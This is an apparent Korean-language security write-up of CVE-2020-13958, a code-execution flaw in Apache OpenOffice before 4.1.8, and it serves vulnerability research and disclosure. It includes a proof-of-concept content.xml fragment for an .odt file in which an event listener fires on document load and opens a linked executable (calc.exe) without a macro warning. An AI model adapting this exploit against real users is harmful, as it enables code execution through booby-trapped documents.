

# Apache OpenOffice RCE (CVE-2020-13958)

* Date : Apr 2020
* Credit : [Imre Rad](https://www.openoffice.org/security/cves/CVE-2020-13958.html)
* CVSS : [N/A](https://nvd.nist.gov/vuln/detail/CVE-2020-13958)
* Affected Versions : Apache OpenOffice 4 versions before 4.1.8

## Description
Apache OpenOffice는 오픈소스 형태의 사무용 생산성 소프트웨어이며, Office 365나 LibreOffice와 유사한 기능을 제공한다. 이처럼 활용도가 높은 소프트웨어에서 논리적 취약점(logical bug)이 존재하여 RCE(Remote Code Execution)까지 연계될 수 있는 위험이 있다. 보통, 문서 편집기의 경우 매크로 악성코드가 실행되는 것을 막기 위해 매크로 실행(macro execution)들에 대해서는 사용자에게 알람이 가도록 설정(e.g., `편집 사용` 클릭하기)되어 있다. 안정성을 위해 반드시 그래야 한다. 그러나 OpenOffice의 경우 `script:event-listener` 핸들러에 대해서 매크로 실행으로 규정하고 있지 않아 해당 핸들러를 이용해 특정 사이트로 연결(이는 특정 프로그램 실행으로도 연계 가능)하는 코드를 삽입하여 특정 사이트로 연결되거나 시스템내의 특정 프로그램을 실행할 수 있게 된다. 이에 `.odt` 확장자 형태로 **calc.exe** 프로그램을 실행하는 PoC를 작성하였다. 

## PoC
```xml
<?xml version="1.0" encoding="UTF-8"?>
...
<office:scripts>
   <office:event-listeners>
   
    <script:event-listener script:language="ooo:script" xlink:href=".uno:OpenHyperlinkOnCursor" script:event-name="dom:load"/>

   </office:event-listeners>
</office:scripts>

<office:font-face-decls>...<text:a xlink:type="simple" xlink:href="file:///c:/windows/system32/calc.exe" text:style-name="Internet_20_link" text:visited-style-name="Visited_20_Internet_20_Link">Foobar</text:a></text:p><text:p text:style-name="Standard"/></office:text></office:body></office:document-content>
```

위 파일은 `.odt` 파일내에 존재하는 **content.xml** 파일의 일부이다. 이전에 언급한대로 `script:event-listener` 핸들러를 정의하고 이벤트는 DOM 객체가 load 되는 행위로 정의한다. 즉, 문서 파일을 열게 되면 실행되는 스크립트이다. 그 다음에는 `xlink:href`의 속성 값으로 실행하고자 하는 특정 파일의 경로를 지정한다. 여기서는 **calc.exe** 프로그램의 경로를 지정하여 해당 파일을 OpenOffice로 열 경우 계산기가 띄워지게 된다. 테스트는 Apache OpenOffice 4.1.7 버전에서 수행하였다.

## Demo


## Reference
- [OpenOffice Advisory](https://www.openoffice.org/security/cves/CVE-2020-13958.html)
- [PoC](https://github.com/irsl/apache-openoffice-rce-via-uno-links?fbclid=IwAR0dWK8OVVVU2Z1iy5Oq52CcB2tCt9Q5g4-ZvX5mM_QJ3JzGdG3ERAm6JJ4)